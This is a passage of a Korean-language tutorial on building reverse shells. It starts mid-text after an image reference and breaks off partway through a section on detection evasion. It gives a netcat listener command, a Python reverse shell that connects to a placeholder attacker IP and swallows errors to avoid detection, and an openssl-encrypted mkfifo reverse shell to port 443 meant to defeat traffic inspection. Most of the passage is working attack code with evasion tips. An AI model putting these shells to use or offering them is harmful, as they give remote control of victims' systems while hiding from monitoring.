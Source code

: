 이 한 줄의 코드가 리버스 쉘의 가장 기본적인 형태다. Bash의 특수 파일 경로인 `/dev/tcp/`를 활용해 표준 입출력과 오류 스트림을 소켓으로 리디렉션하는 방식이다. `-i` 플래그는 대화형 쉘을 생성한다.

대부분의 Linux와 Unix 시스템에 기본 설치된 Bash를 활용하기 때문에 추가 도구가 필요 없다는 장점이 있다. 단, 모든 Linux 배포판이 `/dev/tcp/` 기능을 지원하는 것은 아니므로 주의가 필요하다.

공격자 측에서는 다음과 같이 리스너를 실행한다:

```bash
nc -lvp 4444
```

netcat 도구를 이용해 포트 4444에서 들어오는 연결을 기다리는 것이다. 연결이 성공하면 대상 시스템의 쉘에 접근할 수 있게 된다.

### Python을 이용한 방법

```python
import socket, subprocess, os

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("공격자IP", 포트))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    p = subprocess.call(["/bin/sh", "-i"])
except:
    # 실패 시 조용히 종료 (탐지 회피)
    pass
```

Python은 강력한 소켓 프로그래밍 기능을 제공해 안정적인 리버스 쉘을 구현할 수 있다. 이 코드는 소켓을 생성하고 연결한 후, 표준 스트림을 소켓으로 복제하여 쉘 명령의 입출력이 소켓을 통해 전달되게 한다.

Python이 설치된 모든 시스템에서 동작하며, 에러 처리를 통해 연결 실패 시 조용히 종료되도록 하여 탐지를 어렵게 만든다. 윈도우 환경에서는 `/bin/sh` 대신 `cmd.exe` 또는 `powershell.exe`로 변경하여 사용할 수 있다.

## 탐지 회피 기법

기본적인 리버스 쉘은 네트워크 모니터링 도구에 쉽게 탐지될 수 있다. 보안 장비가 발전함에 따라 탐지를 회피하기 위한 기법들도 함께 발전했는데, 더 은밀한 통신을 위한 방법들을 알아보자.

### 암호화된 통신

기본적인 리버스 쉘 연결은 대부분 암호화되지 않은 평문으로 전송되므로 네트워크 트래픽 분석에 취약하다. 암호화를 적용하면 내용 검사 기반의 탐지를 회피할 수 있다.

```bash
# 공격자 측 (리스너)
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# 대상 측 (리버스 쉘)
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 공격자IP:443 > /tmp/s; rm /tmp/s
```
